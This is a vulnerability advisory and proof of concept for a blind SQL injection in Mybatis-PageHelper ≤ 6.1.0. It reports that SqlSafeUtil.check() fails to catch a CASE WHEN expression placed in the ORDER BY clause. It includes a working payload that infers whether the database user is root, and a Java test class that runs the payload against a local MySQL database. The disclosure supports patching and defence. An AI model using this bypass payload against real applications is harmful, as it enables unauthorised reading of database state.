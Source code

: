 Title: SQL Injection Vulnerability in Mybatis-PageHelper ≤ 6.1.0
BUG_Author: Svanur
Affected Version: Mybatis-PageHelper ≤ 6.1.0
Vendor: Mybatis-PageHelper GitHub Repository
Software: Mybatis-PageHelper
Vulnerability Files:
● src/main/java/com/github/pagehelper/util/SqlSafeUtil.java
Description:
1. Blind SQL Injection via ORDER BY clause:
  ○ In the SqlSafeUtil.check() method, the supplied ORDER BY parameter is not strictly validated.
  ○ Payloads such as case when current_user regexp 0x726f6f74 then 1 else 2 end bypass the check, enabling boolean-based SQL injection through sorting logic.
2. Exploiting the Injection:
  ○ By injecting a crafted CASE WHEN expression into the ORDER BY clause, an attacker can infer database state (e.g., current user) based on result ordering.
3. Example Injection Payload:
ORDER BY case when current_user regexp 0x726f6f74 then uuid else id end ASC
4. Constructing the Vulnerable Query:
  ○ Example query executed without Page.setUnsafeOrderBy:
SELECT * FROM users ORDER BY case when current_user regexp 0x726f6f74 then uuid else id end ASC;
5. Verifying the Exploit:
  ○ When the current user is root (hex 0x726f6f74), results sort by uuid; otherwise they sort by id.
Proof of Concept:
1. Create and run the following Java test class:
import com.github.pagehelper.PageException;
import com.github.pagehelper.util.SqlSafeUtil;
import java.sql.*;

public class Test {
    public static Boolean setOrderBy(String orderBy) {
        if (SqlSafeUtil.check(orderBy)) {
            throw new PageException("order by [" + orderBy + "] has a risk of SQL injection, " +
                    "if you want to avoid SQL injection verification, you can call Page.setUnsafeOrderBy");
        }
        return true;
    }

    public static void main(String[] args) {
        String url = "jdbc:mysql://localhost:3306/test?useUnicode=true&characterEncoding=utf8&useSSL=true";
        String username = "root";
        String password = "123456";

        String payload = "case when current_user regexp 0x726f6f74 then uuid else id end ASC";
        String sql = "SELECT * FROM users ORDER BY " + payload;

        if (setOrderBy(payload) && setOrderBy(payload)) {
            // proceed to execute
        }

        try (Connection conn = DriverManager.getConnection(url, username, password);
             Statement stmt = conn.createStatement();
             ResultSet rs = stmt.executeQuery(sql)) {
            while (rs.next()) {
                System.out.println("id:" + rs.getString(1) + "---uuid:" + rs.getString(2) + "---user:" + rs.getString(3));
            }
        } catch (SQLException ex) {
            ex.printStackTrace();
        }
    }
}
2. Execute with payload. Observe that when current_user matches root, results are ordered by uuid; otherwise by id, confirming the blind SQL injection vulnerability.
